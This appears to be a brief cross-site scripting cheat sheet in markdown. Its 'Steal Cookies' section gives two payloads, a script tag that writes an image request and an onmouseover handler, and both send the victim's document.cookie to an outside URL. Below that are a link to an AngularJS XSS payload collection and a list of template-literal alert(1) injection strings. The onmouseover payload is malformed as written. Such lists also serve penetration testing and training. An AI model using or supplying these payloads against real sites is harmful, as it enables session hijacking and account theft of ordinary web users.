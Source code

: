 # Steal Cookies
## Basic
```javascript
<script>document.write('<img src="[URL]?c='+document.cookie+'"/>'); </script>
```

## Onmouseover
```javascript
onmouseover=eval(var i=new Image;i.src="[URL]/?"+document.cookie;)
```

# AngularJS
[PayloadsAllTheThings - XSS in AngularJS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

# Template Literal Payloads
```javascript
alert(1)
${alert(1)}
alert(1);
${alert(1)};
`alert(1)`
`${alert(1)}`
`${alert(1)}`;
alert(1);
${alert(1)}/*
```

